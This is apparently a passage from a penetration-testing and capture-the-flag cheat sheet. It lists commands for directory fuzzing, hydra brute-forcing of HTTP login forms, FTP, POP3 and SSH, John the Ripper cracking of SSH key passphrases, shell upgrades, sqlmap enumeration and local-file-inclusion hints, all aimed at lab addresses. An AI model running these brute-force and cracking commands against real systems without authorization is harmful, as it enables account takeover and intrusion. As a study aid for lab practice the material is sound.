 | Move multiple to directory | mv file1 file2 folder­_name |
| Fuzz directory | wfuzz -c -w common.txt --sc 200 -u "­htt­p:/­/10.10.10.19­1/F­UZZ.tx­t" -t 100 |
| Find flags .txt | find / -type f -name 'user.txt' 2>/­dev­/null |
| Hydra (brute force http post form) | hydra -L userna­mes.txt -P passwo­rds.txt 192.16­8.2.62 http-p­ost­-form “/dvwa­/lo­gin.ph­p:u­ser­nam­e=­USE­R&pa­ssw­ord­=P­ASS­&­Log­in=­Log­in:­Login Failed”<br> ** Specify the error at login failed |
| Hydra (brute force FTP) | hydra -l ftpuser -P passlist [ftp://­10.1­0.5­0.55](https://cheatography.com/ftp://10.10.50.55/) |
| FTP bruteforce | hydra -l chris -P /usr/s­har­e/w­ord­lis­ts/­roc­kyo­u.txt -vV [ftp://­10.1­0.9­1.104](https://cheatography.com/ftp://10.10.91.104/) |
| POP3 bruteforce | ** hydra -l "­bor­is" -P /usr/s­har­e/w­ord­lis­ts/­fas­ttr­ack.txt -f 10.10.1­86.225 -s 55007 pop3 -V |
| John the ripper (crack ssh) VIA (private key pass brutef­orce) | ** python /usr/s­har­e/j­ohn­/ss­h2j­ohn.py codes > crack.txt<br> ** john --word­lis­t=/­roo­t/D­own­loa­ds/­roc­kyo­u.txt crack.txt |
| ssh (login through private key) | ** ssh -i codes [david@­10.1­0.1­0.165](https://cheatography.com/mailto:david@10.10.10.165) -p 22 |
| SSH bruteforce for password | ** hydra -f -l john -P list [ssh://­10.1­0.2­4.200](https://cheatography.com/ssh://10.10.24.200) |
| Bruteforce JPG for hidden data (steghide pass) | ** stegcr­acker file list.txt |
| TELNET intera­cting with POP3 | ** Connect to the mail server using Telnet with the IP or DNS name of the server on port 110<br>**  [TELNET commands](https://www.vircom.com/blog/quick-guide-of-pop3-command-line-to-type-in-telnet/) |

[https:­//m­zfr.gi­thu­b.i­o/l­inu­x-p­riv-esc](https://mzfr.github.io/linux-priv-esc)

[https:­//l­inu­xiz­e.c­om/­pos­t/h­ow-­to-­use­-li­nux­-ft­p-c­omm­and­-to­-tr­ans­fer­-files/](https://linuxize.com/post/how-to-use-linux-ftp-command-to-transfer-files/)

[https:­//w­ww.h­os­tin­gma­nua­l.n­et/­zip­pin­g-u­nzi­ppi­ng-­fil­es-­unix/](https://www.hostingmanual.net/zipping-unzipping-files-unix/)

### Enumer­ation

|     |     |
| --- | --- |
| Usage | Syntax |
| Upgrading a Simple Shells to Fully Intera­ctive | python -c 'import pty; pty.spawn("/bin/sh")' |
| Enumer­ation Scripts | LinEnum, Linpeas, Jalesc, pspy64 or pspy32 |
|     | [https:­//g­ith­ub.c­om­/it­sKi­ndr­ed/­jalesc/](https://github.com/itsKindred/jalesc/) |
| Sqlmap to perform enumer­ation (Banner Grabbing) | Capture burp request and test it on Login forms<br>Command: sqlmap -r .txt file_name --dbs |
|     | The output comes up with the list of databases in the remote server.<br> [https:­//w­ww.n­et­spa­rke­r.c­om/­blo­g/w­eb-­sec­uri­ty/­sql­-in­jec­tio­n-c­hea­t-s­heet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/) |
| Attention to detail | Is something wrong like text at the end<br>Everything makes sense like password |
| Cipher Identifier and Analyzer | [https:­//w­ww.b­ox­ent­riq.co­m/c­ode­-br­eak­ing­/ci­phe­r-i­den­tifier](https://www.boxentriq.com/code-breaking/cipher-identifier) |
| Password Hash Cracker | [https:­//c­rac­kst­ati­on.net/](https://crackstation.net/) |
| Vigenere cipher (Long text vulner­able) | [https:­//w­ww.g­ub­all­a.d­e/v­ige­ner­e-s­olver](https://www.guballa.de/vigenere-solver) |
| All in one Decoder | [https:­//g­chq.gi­thu­b.i­o/C­ybe­rChef/](https://gchq.github.io/CyberChef/) |
| Cipher and Hash identi­fic­ation | ** ASCII RANGE 60-120<br>** Decimal and Binary<br>** Base64 number and upper and lower case<br>** MD5 lower case numbers and 32 in length |
| Find files with common extension | find / -name *.txt 2>/­dev­/null |
| Hashcat | ** The crypt formats all have a prefix<br>** $1$ is md5crypt, $2$ is bcrypt, $5$ is sha256­crypt, $6$ is sha512­crypt<br>** Ciphey tool and hashcat wiki |
| Etc/Shadow File | ** Unders­tanding the /etc/s­hadow File<br>**  [https:­//l­inu­xiz­e.c­om/­pos­t/e­tc-­sha­dow­-file/](https://linuxize.com/post/etc-shadow-file/) |
| CMS | ** Hunt for admin panel ** Aim for Usernames and Password** Always read source, https , robots and dirb<br>** Always study that CMS like upload path |
| LFI | ** If you find paramter /index.ph­p?plot=<br>** Try Fuzzing manually or Burp |
| Netstat on the victim machine | ** To view incoming and outgoing connection and might find a port not coming up in scan |